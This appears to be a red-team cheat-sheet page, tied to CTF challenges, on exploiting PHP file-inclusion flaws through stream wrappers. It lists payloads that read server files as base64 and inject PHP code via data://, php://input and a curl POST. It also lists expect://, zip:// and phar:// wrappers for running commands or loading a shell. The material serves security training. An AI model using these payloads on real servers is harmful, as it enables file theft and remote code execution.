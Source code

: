 # PHP Wrappers File Inclusion

[![fileinclusion](../../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![php_filters](../../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![remote_file_inclusion](../../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)

<div class="row row-cols-lg-2"><div>

PHP Wrappers can be used to exploit a [LFI/RFI](/cybersecurity/red-team/s3.exploitation/vulns/web/file_inclusion.md#php-include-file-inclusion) on a server as an alternative to path traversal or similar techniques.

To **read** a file (encoded as base64):  `php://filter/read=convert.base64-encode/resource=/path/to/file` or use `php://filter/zlib.deflate/read=convert.base64-encode/resource=/path/to/file` for shorter payloads. [Refer to this to automatically decode it](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#php--catch-requests).

To **inject** some code (encoded as base64): 

* `data://text/plain;base64,<base64 php code here>`
* `allow_url_include` must be enabled 🛑

To **inject** some code (as POST data), inject `php://input` and use:

```ps
$ curl -s -X POST --data '<?php /* code */ ?>' [...]
```
</div><div>

We can also use some special wrappers:

* `expect://id`: run the `id` command, not often installed
* `zip://./path/to/shell.zip%23shell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.zip extension not mandatory)</small>.
* `phar://./path/to/shell.phar%2Fshell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.phar extension not mandatory)</small>.

Refer to [payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md#phar) to generate phar archives or to write PHP code.
</div></div>
